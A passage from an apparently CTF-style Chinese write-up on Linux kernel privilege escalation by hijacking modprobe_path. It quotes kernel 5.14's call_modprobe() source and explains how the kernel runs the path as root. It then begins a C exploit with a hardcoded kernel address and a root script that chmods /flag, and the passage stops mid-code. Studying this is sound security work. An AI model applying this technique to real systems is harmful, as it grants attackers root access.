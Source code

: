其中 `call_modprobe()` 定义于 `kernel/kmod.c`，我们主要关注这部分代码（以下来着内核源码5.14）：

```c
static int call_modprobe(char *module_name, int wait)
{
	//...
	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
	//...
```

在这里调用了函数 `call_usermodehelper_exec()` 将 `modprobe_path` 作为可执行文件路径以 root 权限将其执行，这个地址上默认存储的值为`/sbin/modprobe`。

我们不难想到的是：若是我们能够劫持 modprobe\_path，将其改写为我们指定的恶意脚本的路径，随后我们再执行一个非法文件，**内核将会以 root 权限执行我们的恶意脚本**。

### EXPLOIT

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sched.h>

#define MODPROBE_PATH 0xffffffff82444700

struct Data
{
    size_t *ptr;
    unsigned int offset;
    unsigned int length;
};

#define ROOT_SCRIPT_PATH  "/home/getshell"
char root_cmd[] = "#!/bin/sh\nchmod 777 /flag";

/* bind the process to specific core */
void bindCore(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

void errExit(char *msg)
{
```